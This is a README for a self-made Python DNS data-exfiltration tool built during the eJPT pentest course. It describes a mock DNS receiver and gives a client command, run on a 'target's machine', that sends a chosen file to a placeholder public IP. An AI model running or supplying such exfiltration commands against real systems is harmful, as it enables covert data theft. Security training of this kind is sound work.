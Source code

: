 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, both about the DNS protocol and how data exfiltration works and some neat tricks in Python. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo and run the script as instructed below.

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from. 

## Data encryption
The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode and respond accordingly with a standard DNS reponse. For example:
```
python3 main.py -mode host -hostip "127.0.0.1" -password "s3cr3tp4ssw0rd"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 main.py -mode client -dest "your_public_machine_ip" -password "s3cr3tp4ssw0rd" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
```
python3 main.py -h
```
